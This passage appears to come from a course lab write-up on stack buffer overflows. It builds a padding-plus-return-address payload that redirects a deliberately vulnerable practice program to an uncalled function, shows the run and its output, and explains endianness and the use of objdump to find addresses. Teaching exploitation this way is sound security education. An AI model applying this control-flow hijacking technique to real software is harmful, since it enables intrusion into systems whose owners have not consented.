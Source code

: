 We are now ready to overwite the return address of function1, with the little endian version of the return  address of function 2. 

### Constructing the payload

Before adding the return address component to the payload - we need to add some padding to the payload to overwrite the base pointer. The amount of padding required is calculated as follows: 

* The base pointer is at location `0xffffcf58` - which is 24 bytes from the start of the payload.
* The return address is at location `0xffffcf5c` - which is 28 bytes from the start of the payload.
* So we need to add 4 bytes of padding to the payload to overwrite the base pointer.
* We choose to use the letter `B` as padding - which in hex is `0x42`.

So the adjusted  payload would be as follows: 

```bash
'AAAAAAAAAAAAAAAAAAAAAAAABBBB\xc1\x91\x04\x08'
```

### Running the exploit

Adding this payload to the program and running it we can test the exploit to see if function2 is called. 

```bash
[cyber@cyberbox week7_stackexploitation]$ ./vulnn "$(echo -en 'AAAAAAAAAAAAAAAAAAAAAAAABBBB\xc1\x91\x04\x08')"

Your input string is copied in the buffer 
This function never gets called 

[cyber@cyberbox week7_stackexploitation]$
```

This is the final exploit!

 - which is succesfull as the output shows that  `function2` has been called `(given that the screen output displays a message from function2)`.

---

### A note on endianness

* `Little-endian` is a format for storing binary data in which the least significant byte (the "little end") is stored first, and the most significant byte is stored last.

* `Big-endian` is the opposite format, where the most significant byte is stored first and the least significant byte is stored last.

In the context of buffer overflows and exploits, it's important to understand the endianness of the target system to correctly format the payload.

### A note on finding the address of function2

We got the address of function2 by running the following command:

```bash
objdump -M intel -d vulnn 

# Or alternatively : objdump -M intel -d vulnn | grep function2
```
